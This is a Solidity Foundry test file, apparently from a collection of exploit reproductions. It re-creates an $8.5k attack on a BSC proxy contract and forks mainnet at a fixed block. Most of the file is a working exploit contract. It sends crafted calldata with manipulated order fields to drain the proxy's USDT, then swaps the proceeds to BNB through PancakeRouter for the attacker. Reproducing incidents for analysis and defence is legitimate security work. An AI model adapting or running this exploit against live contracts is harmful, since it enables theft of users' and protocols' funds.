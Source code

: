 pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "../interface.sol";

// @KeyInfo - Total Lost : $8.5k
// Attacker : https://bscscan.com/address/0x9f2ecec0145242c094b17807f299ce552a625ac5
// Attack Contract : https://bscscan.com/address/0x9b78b5d9febce2b8868ea6ee2822cb482a85ad74
// Vulnerable Contract : https://bscscan.com/address/0xb7e1d1372f2880373d7c5a931cdbaa73c38663c6
// Attack Tx : https://bscscan.com/tx/0x864d33d006e5c39c9ee8b35be5ae05a2013e556be3e078e2881b0cc6281bb265

// @Info
// Vulnerable Contract Code : https://bscscan.com/address/0xb7e1d1372f2880373d7c5a931cdbaa73c38663c6

// @Analysis
// Post-mortem : https://x.com/TenArmorAlert/status/1860867560885150050
// Twitter Guy : https://x.com/TenArmorAlert/status/1860867560885150050
// Hacking God : N/A

address constant PancakeRouter = 0x10ED43C718714eb63d5aA57B78B54704E256024E;
address constant BEP20USDT = 0x55d398326f99059fF775485246999027B3197955;
address constant ERC1967Proxy = 0xb7E1D1372f2880373d7C5a931cDbAA73C38663C6;
address constant wbnb = 0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c;
address constant attacker = 0x9f2eceC0145242c094b17807f299Ce552A625ac5;

contract ContractTest is Test {
    function setUp() public {
        vm.createSelectFork("bsc", 44294726);
    }
    
    function testPoC() public {
        emit log_named_decimal_uint("before attack: balance of attacker", address(attacker).balance, 18);
        vm.startPrank(attacker, attacker);
        AttackerC attC = new AttackerC();
        // deal(BEP20USDT, address(attC), 8484920000000000000000);
        attC.attack();
        vm.stopPrank();
        emit log_named_decimal_uint("after attack: balance of attacker", address(attacker).balance, 18);
        emit log_named_decimal_uint("after attack: balance of address(attC)", IERC20(0x7570FDAd10010A06712cae03D2fC2B3A53640aa4).balanceOf(address(attC)), 18);
    }
}

contract AttackerC {
    constructor() {}

    function attack() external {
        uint256 proxyUsdtBal = IBEP20USDT(BEP20USDT).balanceOf(ERC1967Proxy);
        bytes32 fixedData1 = hex"000001baffffe897231d193affff3120000000e19c552ef6e3cf430838298000";
        bytes memory data = abi.encodePacked(
            bytes4(0x9b3e9b92),
            abi.encode(
                address(BEP20USDT),
                fixedData1,
                uint256(0),
                uint256(1),
                uint256(192),
                uint256(224),
                uint256(0),
                uint256(0)
            )
        );
        (bool c2, ) = ERC1967Proxy.call(data);

        uint256 nextOrderId = IERC1967Proxy(ERC1967Proxy).nextOrderId();
        bytes32 fixedData2 = hex"fffffffffffffffffffffffffffffffffffffffffffffffffffff8cd94b80000";
        bytes memory data2 = abi.encodePacked(
            bytes4(0x9b3e9b92),
            abi.encode(
                address(BEP20USDT),
                fixedData2,
                uint256(0),
                uint256(1),
                uint256(192),
                uint256(256),
                uint256(1),
                nextOrderId,
                uint256(1),
                uint256(proxyUsdtBal)
            )
        );
        (bool c4, ) = ERC1967Proxy.call(data2);

        uint256 selfBal = IBEP20USDT(BEP20USDT).balanceOf(address(this));

        IBEP20USDT(BEP20USDT).approve(PancakeRouter, type(uint256).max);
        
        address[] memory path = new address[](2);
        path[0] = BEP20USDT;
        path[1] = wbnb;
        IPancakeRouter(payable(PancakeRouter)).swapExactTokensForETHSupportingFeeOnTransferTokens(
            selfBal,
            0,
            path,
            tx.origin,
            block.timestamp
        );
    } 
}

interface IERC1967Proxy {
    function nextOrderId() external view returns (uint256);
}

interface IBEP20USDT {
	function balanceOf(address) external returns (uint256);
	function approve(address, uint256) external returns (bool); 
}

